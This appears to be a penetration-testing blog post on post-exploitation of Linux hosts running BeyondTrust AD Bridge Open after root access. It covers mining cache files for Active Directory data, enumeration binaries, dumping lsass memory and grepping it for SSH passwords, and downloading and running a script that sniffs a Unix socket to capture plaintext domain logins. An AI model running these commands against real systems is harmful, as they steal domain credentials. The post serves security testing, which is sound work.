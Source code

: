 ```yaml
---
title: "BeyondTrust AD Bridge Open Post-Exploitation"
layout: "post"
---
```


[AD Bridge Open](https://github.com/BeyondTrust/pbis-open) is an open-source community project sponsored by BeyondTrust Corporation.

Active Directory Bridging (AD Bridging) is a mechanism that allows users to log on to non-Windows systems using Active Directory (AD) login credentials. It is essentially a wrapper application that will facilitate the integration of \*nix hosts with Microsoft Active Directory (sets up Kerberos and LDAP Auth).

This post describes a few post-exploitation tips, were ROOT access was obtained on a Linux host that is using AD Bridge Open. Also the post content is based on the last open source version that is available on GitHub (AD Bridge Open 9.1.0.551). The project was discontinued and moved to a enterprise closed source model in 2021.



## Builtin binaries and files for situational awareness

AD Bridge Open installs and uses several binaries that are very useful for enumerating an Active Directory environment - especially if the Linux box was streamlined and does not have installed any LDAP or SMB clients typicaly present on Linux distributions.

The software keeps a cache file of domain users and associated Active Directory information on this file `/var/lib/pbis/db/lsass-adcache.filedb.DOMAIN.LOCAL`. A lot of information about Active Directory environment, without making any request to the Domain Controllers, can be extracted from this file.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-1.png">
</p>



Another interesting file is `/var/lib/pbis/db/lwi_events.db`. If the Active Directory has been hardened and the Machine Account Quota is set to zero for all regular domain accounts, by reading this file one can get the domain account that was used to join the Linux machine to the domain - again without making a single request to the Domain Controllers.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-2.png">
</p>



As for useful LOLBIN's for enumeration and situational awareness, they all reside on the directory `/opt/pbis/bin/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-3.png">
</p>


These are pretty much self explanatory:

 - `/opt/pbis/bin/enum-groups`
 - `/opt/pbis/bin/enum-members`
 - `/opt/pbis/bin/enum-objects`
 - `/opt/pbis/bin/enum-users`
 - `/opt/pbis/bin/list-groups-for-user`
 - `/opt/pbis/bin/find-by-sid`
 - `/opt/pbis/bin/find-group-by-id`
 - `/opt/pbis/bin/find-group-by-name`
 - `/opt/pbis/bin/find-objects`
 - `/opt/pbis/bin/find-user-by-id`
 - `/opt/pbis/bin/find-user-by-name`
 - `/opt/pbis/bin/ldapsearch`


`/opt/pbis/bin/get-dc-list DOMAIN.LOCAL` will output the names and IPs of all Domain Controllers.


`/opt/pbis/bin/adtool` can query and modify objects in Active Directory - eg: add user or computer accounts.


`/opt/pbis/bin/get-dc-list/update-dns` Registers IP addresses and corresponding PTR records in DNS via a secure dynamic DNS update that could be handy for ADIDNS Zone poisoning.


`/opt/pbis/bin/lwio-copy` is a SMB client that can be used to transfer files.



You can find more details about the binaries function, command flags and whatnot on the [official documentation](https://www.beyondtrust.com/docs/ad-bridge/getting-started/linux-admin/index.htm)




# Domain credentials for lateral movement and privilege escalation

As with any pentesting or red teaming engagement I want to obtain Domain credentials to move laterally and/or escalate privileges.

In order to get some plain text credentials the LSASS process can be targeted Mimikatz style, minus the memory structures parsing complexities of LSASS on Windows.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-4.png">
</p>


SSH is integrated with Active Directory using AD Bridge Open, so I can dump the process memory, run strings and grep for SSH authentications or passwords.


GDB can be attached using one of the AD Bridge Open binaries `/opt/pbis/bin/lwsm gdb lsass`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-5.png">
</p>


Or I can just run ``gcore `ps aux | grep '[l]sass' | awk '{print $2}'` && strings core.* | grep -C 8 -Hnia --color=auto "ssh"``

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-6.png">
</p>


The only issue with this method is that it is a bit hit-and-miss with the grep "offsets". Sometimes I get the user credential within the offsets, other times I get nothing and the credential is somewhere inside the ~1Gb memory dump file.


So I decided to look again at the files being used by AD Bridge Open, and found several of Unix Sockets on the directory `/var/lib/pbis/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-7.png">
</p>


`.lsassd` appeared interesting, so I decided to sniff its traffic.

I'll need to install wireshark/tcpdump and socat and then run a small bash script to accomplish this.

Since I have to wait for a SSH connection, I'm going to run everything from a Tmux session. That way I can detach it and leave it running.

```bash
yum -y install wireshark socat tmux
tmux
wget https://gist.githubusercontent.com/ricardojba/05d8ca06717292798054ca968082b70a/raw/5eea101b9054b19aa21714b2cbcbc5bc2173cdf4/unixsock-sniff.sh -O unixsock-sniff.sh
chmod 755 unixsock-sniff.sh
./unixsock-sniff.sh -u /var/lib/pbis/.lsassd
```

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-8.png">
</p>

If the Linux box is very often accessed by users or there is some automated scanning software that performs authenticated scans against the box (eg: Nessus), I should get the SSH logins and capture the plain text credentials.

`tshark -x -r /tmp/unix_socket_dump.pcap | grep -C 8 sshd`


Pretty sure that there's a lot that I didn't covered or missed, but this will help get us started in a pentest or red team of \*nix hosts with BeyondTrust AD Bridge Open installed.

